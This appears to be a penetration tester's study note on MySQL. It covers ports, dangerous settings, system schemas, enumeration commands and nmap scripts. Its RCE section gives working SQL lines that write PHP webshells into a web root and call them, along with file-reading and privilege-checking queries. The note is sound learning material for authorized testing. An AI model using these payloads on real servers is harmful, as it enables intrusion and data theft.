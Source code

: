 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```

## Summary
*MySQL* uses a client-server principle with one server and multiple clients. Often stores database as a single `.sql` file.

Often used with (Linux, Apache, MySQL, PHP - *LAMP*) or Nginx (*LEMP*). Very often these databases are accessible from an external network (due to misconfigurations, forgetting settings, or technical workarounds).

**Standard Port:** 
- 3306/tcp - commonly used for MySQL server

**Version Names:** 

| service name | releases link | notes         |
| ------------ | ------------- | ------------- |
| MariaDB      |               | Fork of MySQL |

## Configuration
```
sudo apt install mysql-server -y
```
*/etc/mysql/mysql.conf.d/mysqld.cnf* - [MySQL reference](https://dev.mysql.com/doc/refman/8.0/en/server-system-variables.html)

### Dangerous Settings
- `user` : Which user to run the service as *(stored plaintext)*
- `password` : Password for the DB user *(stored plaintext)*
- `admin_address` : IP address for the admin network interface *(stored plaintext)*
- `debug` : Current debug settings (eg. logging)
- `sql_warnings` : Whether a single-row INSERT statement should produce warnings
- `secure_file_priv` : Limit the effect of data import and export operations

### Default Setup
- *system schema* (*sys*) : [docs](https://dev.mysql.com/doc/refman/8.0/en/system-schema.html)
	- `host_summary` table contains host information : `select host, unique_users from host_summary;`
- *information schema* (*information_schema*) : metadata database
- *mysql* : system database that information required by MySQL Server
- *performance schema* (*performance_schema*) : feature for monitoring MySQL Server execution at a low level
## [[Basic SQL Syntax]]

## Potential Capabilities
- Potentially gain access to sensitive information in the database
- View sensitive logs and error outputs that could indicate further attack possibilities
- RCE by writing files to executable directories
### RCE (Writing files)
MySQL doesn't have a way to directly execute code (unlike [[MSSQL#RCE]]), but you can write files, meaning you could write a file to an executable dir (eg. a web server root) and then execute it through the web server. 

If the mysql service has enough privileges, it can write using `SELECT INTO OUTFILE`.
```sql
mysql> SELECT "<payload>" INTO OUTFILE '<path>';
mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php';
```
> The `secure_file_priv` global system variable limits the effects of data import and export operations. These operations can only be performed by users with the `FILE` privilege anyways.
> If `secure_file_priv` is set to:
> - `<empty>` : then the variable has no effect (this is dangerous)
> - `<name of dir>` : only data import/export ops can be performed in that directory (dir must exist, server won't create it)
> - `NULL` : disables all import/export ops

We can check these permissions and variables by:
```SQL
SHOW VARIABLES LIKE 'secure_file_priv';

SELECT variable_name,variable_value FROM information_schema.global_variables WHERE variable_name='secure_file_priv';
```
```SQL
SELECT grantee,privilege_type FROM information_schema.user_privileges WHERE grantee='[user]';
```

> When writing webshells, we need to know the web root dir. There are common ones such as `/var/www/html/` but we can potentially read the config at `/etc/apache2/apache2.conf` or `/etc/nginx/nginx.conf` or `%WinDir%\System32\Inetsrv\Config\ApplicationHost.config` (for IIS / [[MSSQL]])

#### Writing a simple PHP webshell
```SQL
SELECT '<?php system($_REQUEST[0]); ?>' INTO OUTFILE '/var/www/html/shell.php';
```
> `http://SERVER_IP:PORT/shell.php?0=[cmd]`
### Reading Files
If appropriate settings and privileges allow it, we can read files too
```sql
mysql> SELECT LOAD_FILE("<path>");
```

### Checking user privileges
```sql
SELECT super_priv FROM mysql.user
```
This will tell us if our user has the super admin privileges. We can see additional privileges via:
```SQL
SELECT grantee,privilege_type FROM information_schema.user_privileges WHERE grantee='[user]'
```
> Get user with `select user from mysql.user` or `user()`
## Enumeration Checklist

| Goal                          | Command(s)                                                                                                                                                                                  | Refs                                                                                          |
| ----------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------- |
| Identify the service via Nmap | sudo nmap [ip] -sC -sV -p3306 --script mysql*                                                                                                                                               |                                                                                               |
| Connect with a client         | mysql -u [user] -p[password] -h [ip]                                                                                                                                                        | [guide](https://dev.mysql.com/doc/mysql-getting-started/en/#mysql-getting-started-installing) |
| Show information              | show databases;<br><br>use [database name];<br><br>show tables;<br><br>show columns from [table];<br><br>select \* from [table];<br><br>select \* from [table] where [column] = "[string]"; |                                                                                               |
| Get version                   | select version();                                                                                                                                                                           |                                                                                               |
| Linux GUI App                 | sudo dpkg -i dbeaver-<version>.deb<br><br>dbeaver &                                                                                                                                         | [https://github.com/dbeaver/dbeaver/releases](https://github.com/dbeaver/dbeaver/releases)    |
| User information              | select user()<br><br>select current_user()<br><br>select user from mysql.user                                                                                                               |                                                                                               |
### Nmap Scripts
> always manually validate results for false positives
- mysql*
- mysql-brute
- mysql-databases
- mysql-dump-hashes
- mysql-empty-password
- mysql-enum
- mysql-info
- mysql-users
- mysql-variables
- mysql-vuln*